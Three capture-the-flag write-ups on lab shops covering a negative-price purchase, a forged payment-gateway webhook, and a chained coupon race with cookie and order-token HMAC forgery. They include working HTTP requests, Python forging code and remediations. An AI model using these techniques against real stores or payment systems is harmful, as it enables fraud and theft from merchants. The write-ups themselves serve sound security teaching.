# A06 Easy Write-up: Negative Price Purchase

## Challenge information

| Field | Value |
|---|---|
| Category | A06:2025 - Insecure Design |
| Difficulty | Easy |
| Application | Northstar Market |
| Objective | Obtain the Redline Travel Case without paying its listed price |
| Flag format | `CTF{...}` |

## Summary

I was given a store wallet containing only `$75.00`, while the target item cost `$1,250.00`. By inspecting the premium item's purchase form, I found that the browser sends the product price to the server in a hidden field. The server trusted this client-controlled value.

I changed the submitted price from `1250.00` to `-1.00`. Checkout accepted the negative total, fulfilled the restricted item, and increased my wallet balance to `$76.00`. The completed order then revealed the flag.

## Step 1: Review the store

I opened Northstar Market and reviewed the available products. The page showed an initial wallet balance of `$75.00`.

The target was the **Redline Travel Case**, marked as a restricted product and priced at `$1,250.00`. A normal purchase was impossible because the item cost far more than the available balance.



At this point, the important values were:

- Available balance: `$75.00`
- Target price: `$1,250.00`
- Product ID: not yet known

## Step 2: Inspect the purchase form

I inspected the page source and searched for `unit_price`. Each purchase form contained two hidden values: a product identifier and its price.

The premium item's form contained:

```html
<input type="hidden" name="product_id" value="vault-case">
<input type="hidden" name="unit_price" value="1250.00">
```



This was suspicious because a price is server-owned business data. The browser should normally send only the product ID and quantity. The server should retrieve the authoritative price from its own catalog.

## Step 3: Change the price to a negative value

Using the browser inspector, I selected the premium item's `unit_price` input and changed its value:

```text
Original: 1250.00
Modified: -1.00
```

For the screenshot, I temporarily changed the hidden input to a visible text field so the modified value could be seen clearly. This does not change what is sent to the server; it only makes the form value visible.



The equivalent intercepted HTTP request body is:

```http
POST /purchase.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

product_id=vault-case&unit_price=-1.00
```

## Step 4: Submit the modified purchase

I submitted the premium item's form with `unit_price=-1.00`.

The server performed two unsafe operations:

```text
Order total = client-supplied price
Wallet balance = wallet balance - order total
```

With the supplied values, the calculation became:

```text
$75.00 - (-$1.00) = $76.00
```

Because a negative total was not greater than the available balance, the insufficient-funds check did not reject it. Subtracting a negative amount then credited `$1.00` to the wallet.

## Step 5: Recover the flag

The application fulfilled the Redline Travel Case even though the order charge was `-$1.00`. The wallet increased to `$76.00`, and the restricted shipment access code appeared below the completed order.



The recovered flag (dynamic per individual/session) followed the pattern:

```text
CTF{negative_price_positive_profit_<token>}
```
*(Example: `CTF{negative_price_positive_profit_a1b2c3d4e5f60718}`)*

## Root cause

The checkout endpoint verifies that the submitted product exists, but it calculates the total from `$_POST['unit_price']`. Since HTTP requests are controlled by the user, this value cannot be trusted.

The vulnerable logic is equivalent to:

```php
$orderTotalCents = $submittedPriceCents;

if ($orderTotalCents > $_SESSION['balance_cents']) {
    // Reject the purchase.
}

$_SESSION['balance_cents'] -= $orderTotalCents;
```

There is also no invariant requiring the total to be positive. Together, these design mistakes allow an attacker to choose a negative total, pass the balance check, increase the wallet, and receive the product.

## Impact

An attacker can:

- Purchase any catalog product without paying its real price.
- Increase their wallet balance through negative charges.
- Obtain restricted or premium products.
- Cause incorrect order and accounting records.

## Remediation

The purchase request should contain only a product ID and a valid positive quantity. Checkout must retrieve the current price from the server-side catalog:

```php
$product = $catalog[$productId] ?? null;

if ($product === null || $quantity < 1) {
    rejectOrder();
}

$orderTotalCents = $product['price_cents'] * $quantity;

if ($orderTotalCents <= 0 || $orderTotalCents > $walletBalanceCents) {
    rejectOrder();
}
```

The balance deduction, inventory change, and order creation should also happen in a single database transaction. This prevents partial updates and ensures the business rules remain consistent.


# A06 Medium Write-up: Payment Workflow Bypass (Gateway Webhook Forgery)

## Challenge information

| Field | Value |
|---|---|
| Category | A06:2025 - Insecure Design |
| Difficulty | Medium |
| Application | Harborline Travel Co. (NordicPay Integration) |
| Objective | Complete a reservation for the Aurora Glass Lodge without making a successful payment |
| Flag format | `CTF{...}` |

## Summary

Harborline offers an Arctic getaway package (*Aurora Glass Lodge*) priced at `$2,450.00`. The reservation pipeline follows a four-stage booking workflow: Traveler details, Review, Payment authorization, and Order fulfillment.

When submitting card information, test cards are declined by the partner payment gateway (`NordicPay v2`). By routing browser traffic through **Burp Suite** and inspecting the HTTP history, I observed that the backend authorization handler (`POST /checkout/process-payment.php`) exposes the gateway settlement callback endpoint (`/checkout/gateway-callback.php`) alongside the transaction reference.

Probing this callback endpoint in **Burp Suite Repeater** revealed that the server expects an event declaration header (`X-Gateway-Event: payment.authorized`) and structured settlement fields. The application suffers from an **Insecure Design** flaw: the webhook endpoint trusts client-submitted event headers and payload data without enforcing HMAC signature verification or IP restriction. By forging a successful payment webhook in **Burp Suite**, the booking was transitioned to confirmed status and the flag was issued.

---

## Step 1: Explore the target booking package

I accessed the Harborline application at `http://127.0.0.1:8088/` and reviewed the available vacation package. The target package was the **Aurora Glass Lodge** in Northern Norway, priced at `$2,450.00`.



I clicked **Reserve your stay**, which initialized a booking session (`HL-...`) and redirected to the traveler details form.

---

## Step 2: Submit traveler information and review booking

On Step 1 of checkout (`/checkout/details.php`), I entered traveler information:

- **Full name**: `Alex Morgan`
- **Email address**: `alex@example.test`
- **Country**: `Canada`
- **Passport number**: `CTF12345`



Submitting the form updated the booking session status to `details_complete` and proceeded to Step 2 (`/checkout/review.php`), displaying the reservation summary.



I clicked **Continue to payment** to move to the payment checkout step.

---

## Step 3: Attempt payment and observe gateway decline

On Step 3 of checkout (`/checkout/payment.php`), I was presented with the credit card authorization form.



I entered test payment credentials:

- **Name on card**: `Alex Morgan`
- **Card number**: `4242 4242 4242 4242`
- **Expiration**: `12/28`
- **Security code**: `123`

When I clicked **Authorize payment $2,450.00**, the payment processor rejected the transaction:

```text
Payment gateway declined this authorization (ERR_CARD_DECLINED_INSUFFICIENT_FUNDS). Transaction: TXN_7fef6fa4c0 [Handler: /checkout/gateway-callback.php]
```



---

## Step 4: Inspect HTTP traffic in Burp Suite Proxy

To understand how the payment processor and backend interact, I opened **Burp Suite** and inspected the HTTP traffic under **Proxy > HTTP history**.

I located the `POST /checkout/process-payment.php` transaction. When sent with an `Accept: application/json` header, the server returned structured JSON:

```http
POST /checkout/process-payment.php HTTP/1.1
Host: 127.0.0.1:8088
Content-Type: application/x-www-form-urlencoded
Accept: application/json
Cookie: harborline_booking=0ea4bc89f92d83017a8e

csrf_token=4db9b468b0e6d7c3f9d5a4fc6f9554828df5973258729773&booking_id=HL-F41B2C&card_name=Alex+Morgan&card_number=4242424242424242&expiry=12%2F28&cvv=123
```

The response revealed the gateway callback handler endpoint:

```http
HTTP/1.1 402 Payment Required
Content-Type: application/json; charset=utf-8

{
  "status": "declined",
  "error": "Card authorization declined: Insufficient funds (ERR_DECLINED_042)",
  "booking_id": "HL-F41B2C",
  "transaction_id": "TXN_7fef6fa4c0",
  "amount_cents": 245000,
  "gateway_provider": "nordicpay-v2",
  "callback_handler": "/checkout/gateway-callback.php"
}
```



### Key Observations

1. The gateway interaction produces a transaction reference: `transaction_id = TXN_7fef6fa4c0`.
2. Asynchronous settlements are handled via an internal webhook endpoint: `/checkout/gateway-callback.php`.

---

## Step 5: Probe the gateway callback endpoint in Burp Repeater

I sent a request to `POST /checkout/gateway-callback.php` in **Burp Suite Repeater**:

```http
POST /checkout/gateway-callback.php HTTP/1.1
Host: 127.0.0.1:8088
Cookie: harborline_booking=0ea4bc89f92d83017a8e

booking_id=HL-F41B2C
```

The endpoint returned a `400 Bad Request` with helpful API feedback:

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8

{
  "status": "error",
  "error": "Missing gateway event header. Expected header: 'X-Gateway-Event: payment.authorized'"
}
```



When adding `X-Gateway-Event: payment.authorized`, the endpoint indicated the required payload fields:

```json
{
  "status": "error",
  "error": "Missing required gateway payload fields: booking_id, transaction_id, status (expected 'success', 'approved', or 'settled'), amount_cents (expected positive integer in cents)"
}
```

---

## Step 6: Forging the payment gateway webhook

With all the parameter requirements identified, I constructed the complete forged gateway notification in **Burp Suite Repeater**:

```http
POST /checkout/gateway-callback.php HTTP/1.1
Host: 127.0.0.1:8088
X-Gateway-Event: payment.authorized
Content-Type: application/x-www-form-urlencoded
Cookie: harborline_booking=0ea4bc89f92d83017a8e

booking_id=HL-F41B2C&transaction_id=TXN_7fef6fa4c0&status=success&amount_cents=245000
```

I clicked **Send**.

The backend server accepted the webhook without verifying whether the request originated from the authentic NordicPay IP range or validating an HMAC secret:

```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8

{
  "status": "success",
  "event": "payment.authorized",
  "booking_id": "HL-F41B2C",
  "confirmation": "AR-5DED145",
  "message": "Payment successfully settled. Booking confirmed.",
  "redirect_url": "confirmation.php?booking=HL-F41B2C"
}
```



---

## Step 7: Recover the confirmation code and flag

In the browser, I visited the confirmation page at:

`http://127.0.0.1:8088/checkout/confirmation.php?booking=HL-F41B2C`

The reservation was marked as **Confirmed** and **Settled**, displaying the confirmation code and the expedition flag:



The recovered flag (dynamic per individual/session) followed the pattern:

```text
CTF{checkout_complete_payment_<token>}
```
*(Example: `CTF{checkout_complete_payment_c4a89d123e4f5678}`)*

---

## Root Cause Analysis

This vulnerability represents **OWASP A06:2025 – Insecure Design**. Specifically, the application implements an unauthenticated payment callback handler without cryptographic verification.

In `src/checkout/gateway-callback.php`:

```php
// Insecure Design Flaw: Webhook handler relies on untrusted header without cryptographic signature
$eventHeader = (string) ($_SERVER['HTTP_X_GATEWAY_EVENT'] ?? '');
$paymentStatus = strtolower(trim((string) ($input['status'] ?? '')));

if ($eventHeader === 'payment.authorized' && $paymentStatus === 'success') {
    // Insecure state transition without HMAC verification
    $_SESSION['bookings'][$bookingId]['status'] = 'confirmed';
    $_SESSION['bookings'][$bookingId]['payment_status'] = 'settled';
    $_SESSION['bookings'][$bookingId]['flag'] = getFlag();
}
```

### Architectural Weaknesses

1. **Missing Webhook Signature Verification**: The callback endpoint does not verify a shared HMAC secret (e.g. `hash_hmac(sha256, $payload, $webhookSecret)`).
2. **Missing Source IP Validation**: Anyone with access to the web server can trigger the settlement endpoint directly.
3. **Public Exposure of Internal Handlers**: Transaction metadata in error messages reveals the internal handler URL.

---

## Impact

An attacker can:
- Forge payment capture webhooks to confirm any pending order without paying.
- Acquire restricted goods and reservation access codes.
- Cause inventory depletion and reconcile discrepancies in payment ledgers.

---

## Remediation

1. **HMAC Webhook Signatures**: Require payment processors to sign every payload using a shared secret and verify the signature prior to processing:

```php
$signature = (string) ($_SERVER['HTTP_NORDICPAY_SIGNATURE'] ?? '');
$payload = (string) file_get_contents('php://input');
$computed = hash_hmac('sha256', $payload, $_ENV['WEBHOOK_SECRET']);

if (!hash_equals($computed, $signature)) {
    http_response_code(401);
    exit('Invalid webhook signature');
}
```

2. **Network Perimeter Controls**: Restrict callback endpoints to the payment processor's published IP address ranges.
3. **Server-to-Server Polling**: Verify transaction status by actively querying the payment gateway API (`GET /v1/charges/{id}`) before fulfilling orders.


# A06 Hard Write-up: Coupon and Wallet Abuse (Multi-Step Logic Chain)

## Challenge Information

| Field | Value |
|---|---|
| Category | A06:2025 - Insecure Design |
| Difficulty | Hard |
| Application | Apex Sovereign Vault |
| Objective | Chain business logic vulnerabilities to acquire the restricted Obsidian Sovereign Key |
| Flag format | `CTF{...}` |
| Starting balance | `₹50.00` |

---

## Executive Summary

**Apex Sovereign Vault** is a high-net-worth asset enclave. The target asset is the **Obsidian Sovereign Key**, priced at `₹50,000.00` and restricted exclusively to **Sovereign VIP** members. Standard accounts start with only `₹50.00` in reserve funds.

To retrieve the flag, an attacker cannot rely on a single obvious flaw. Instead, they must chain five distinct **Insecure Design** vulnerabilities:
1. **Information Disclosure & Secret Leakage**: Leftover developer staging artifacts (`/api/debug-schema.php` and `assets/app.js.map`) expose internal routes, legacy QA parameters, and the server-side HMAC signing secret (`apex_dev_sec_994821`).
2. **Concurrency / Race Condition**: The promotional coupon redemption endpoint (`POST /api/redeem.php`) suffers from a check-then-apply race condition where the one-time check is separated from the credit transaction by an artificial network delay.
3. **Hidden Debug Parameter Abuse**: The redemption endpoint silently accepts a deprecated QA testing parameter (`multiplier=10`), multiplying the credit by up to 10x per request.
4. **Privilege Escalation via Cookie Signature Forgery**: The user membership tier is stored client-side in the `apex_member_tier` cookie signed using the leaked developer secret. Forging this signature elevates the player from `standard` to `sovereign_vip`.
5. **Signed Order Manipulation & Settlement**: The checkout authorization mechanism trusts client-supplied order prices if accompanied by a matching HMAC signature. An attacker uses the leaked signing key to generate a valid `order_token`, purchasing the Obsidian Sovereign Key and issuing the dynamic CTF flag.

---

## Step 1: Review Initial Storefront & Investigate Endpoints

Accessing the application at `http://127.0.0.1:8090/` reveals the Apex Sovereign Vault dashboard.



### Key Observations
- Starting Balance: `₹50.00` (`5000` cents).
- Current Membership Tier: `STANDARD`.
- Target Asset: **Obsidian Sovereign Key** (`₹50,000.00` / `5000000` cents), marked as **Sovereign VIP Only**.
- An attempt to purchase directly without VIP status fails immediately with:
  `Restricted item! Purchase requires Sovereign VIP membership tier.`

---

## Step 2: Discover Developer Schema & Signing Secret

Inspecting developer artifacts and network history in **Burp Suite Proxy** reveals a staging debug endpoint at `/api/debug-schema.php` as well as a JavaScript source map `assets/app.js.map`.

Sending `GET /api/debug-schema.php` in **Burp Suite Repeater** returns:

```http
GET /api/debug-schema.php HTTP/1.1
Host: 127.0.0.1:8090

HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8

{
  "service": "Apex Vault Internal API Gateway (Staging Build v2.4.1-rc3)",
  "environment": "staging-debug",
  "endpoints": [
    {
      "path": "/api/redeem.php",
      "method": "POST",
      "params": {
        "code": { "type": "string", "example": "WELCOME50" },
        "multiplier": { "type": "integer", "notes": "INTERNAL QA USE ONLY: Multiplies coupon credit value up to 10x" }
      }
    },
    {
      "path": "/api/sign-order.php",
      "method": "POST",
      "signing_algorithm": "HMAC-SHA256",
      "signing_format": "{item_id}:{price_cents}:{quantity}",
      "dev_secret_reference": "apex_dev_sec_994821"
    }
  ]
}
```



### Critical Findings
1. The coupon endpoint `/api/redeem.php` accepts a hidden `multiplier` parameter (up to `10`).
2. The HMAC signing secret is `apex_dev_sec_994821`.
3. Order signatures follow format `HMAC_SHA256("{item_id}:{price_cents}:{quantity}", secret)`.

---

## Step 3: Exploit Coupon Race Condition with Hidden Multiplier

The standard coupon `WELCOME50` gives `₹50.00` store credit and is meant to be single-use. However, the server does not perform an atomic database transaction.

By sending 10–20 concurrent requests using **Burp Suite Intruder** (or **Turbo Intruder**) with `code=WELCOME50` and `multiplier=10`, multiple requests execute within the non-atomic validation window:

```http
POST /api/redeem.php HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Cookie: apex_vault_session=948f4974a18f747f8956397cbf793832

code=WELCOME50&multiplier=10
```



Each successful parallel hit awards `₹500.00` (`50000` cents). Stacking 5 concurrent hits instantly increases the wallet balance from `₹50.00` to `₹2,550.00`+.

---

## Step 4: Forge Sovereign VIP Membership Tier via Cookie Tampering

When loading the application, the server sets a client-side membership tier cookie:
```text
apex_member_tier = <base64_payload>.<hmac_sha256_signature>
```

Decoding the base64 payload reveals:
```json
{
  "user_id": "usr_ead1745abf",
  "tier": "standard",
  "issued_at": 1787976275
}
```

Because we extracted the developer signing secret (`apex_dev_sec_994821`) in Step 2, we can tamper with the JSON payload:
```json
{
  "user_id": "usr_ead1745abf",
  "tier": "sovereign_vip",
  "issued_at": 1780000000
}
```

Computing the new HMAC-SHA256 signature:
```python
import base64, hmac, hashlib

payload_b64 = base64.b64encode(b'{"user_id":"usr_ead1745abf","tier":"sovereign_vip","issued_at":1780000000}').decode()
sig = hmac.new(b"apex_dev_sec_994821", payload_b64.encode(), hashlib.sha256).hexdigest()
forged_cookie = f"{payload_b64}.{sig}"
```

Sending this forged cookie in **Burp Suite Repeater** promotes the session to **Sovereign VIP**:



---

## Step 5: Forge Order HMAC Token and Execute Purchase

The checkout endpoint (`POST /checkout/purchase.php`) requires:
1. Sovereign VIP Tier (satisfied by our forged cookie).
2. Wallet balance $\ge$ order total (satisfied by our stacked balance or price override).
3. Valid `order_token` matching `{item_id}:{price_cents}:{quantity}`.

Using our signing secret `apex_dev_sec_994821`, we can generate a valid order authorization token for `obsidian-key` with `price_cents=1000` (`₹10.00`):

```python
order_payload = "obsidian-key:1000:1"
order_token = hmac.new(b"apex_dev_sec_994821", order_payload.encode(), hashlib.sha256).hexdigest()
# order_token = 35223d2ff891e6590c1e678e44879ead9630e868b1fa1aafda79a08568105ed3
```

In **Burp Suite Repeater**, submit the final purchase:

```http
POST /checkout/purchase.php HTTP/1.1
Host: 127.0.0.1:8090
Cookie: apex_vault_session=948f4974a18f747f8956397cbf793832; apex_member_tier=eyJ1c2VyX2lkIjoidXNyX2VhZDE3NDVhYmYiLCJ0aWVyIjoic292ZXJlaWduX3ZpcCIsImlzc3VlZF9hdCI6MTc4MDAwMDAwMH0=.5e5c45a77373fce1697e92b90a836a7dbb4829871c5420bd9120f6692ef3318a
Content-Type: application/x-www-form-urlencoded

item_id=obsidian-key&price_cents=1000&quantity=1&order_token=35223d2ff891e6590c1e678e44879ead9630e868b1fa1aafda79a08568105ed3
```



---

## Step 6: Recover the Dynamic Flag

The server processes the transaction, fulfills the **Obsidian Sovereign Key**, and returns the dynamic flag in the transaction ledger:



The recovered flag follows the dynamic format:
```text
CTF{coupon_wallet_design_abuse_<token>}
```
*(Example: `CTF{coupon_wallet_design_abuse_69edf1b02a0e7c3b}`)*

---

## Root Cause Analysis

This challenge demonstrates multiple interrelated flaws under **OWASP A06:2025 – Insecure Design**:

1. **Non-Atomic Check-Then-Apply Race Condition**: The coupon handler checks for prior redemptions and records the new redemption in separate, non-atomic steps without database mutexes or isolation locks.
2. **Hidden Legacy QA Parameters**: Test code (`multiplier`) remained active in the production routing logic.
3. **Client-Controlled State & Weak Secret Management**: Critical authorization attributes (`tier: sovereign_vip`) and order tokens relied on HMAC signing with a static secret key exposed in staging metadata and source maps.
4. **Client-Driven Pricing**: The server allowed the client to dictate the price inside the signing request rather than retrieving authoritative pricing strictly from the server-side catalog.

---

## Remediation

1. **Atomic Concurrency Controls**: Enforce serializable database transactions or atomic conditional updates (e.g. `INSERT ... ON CONFLICT DO NOTHING` or distributed locks) to eliminate race windows.
2. **Strict Environment Segregation**: Remove all QA/debug parameters, staging routes (`/api/debug-schema.php`), and source maps from deployment builds.
3. **Server-Side Session State**: Store authorization roles and membership tiers exclusively in server-side session stores or secure JWTs with secrets rotated and managed via secure Key Management Services (KMS).
4. **Authoritative Price Validation**: Determine order prices exclusively on the backend from the server catalog rather than signing client-supplied amounts.
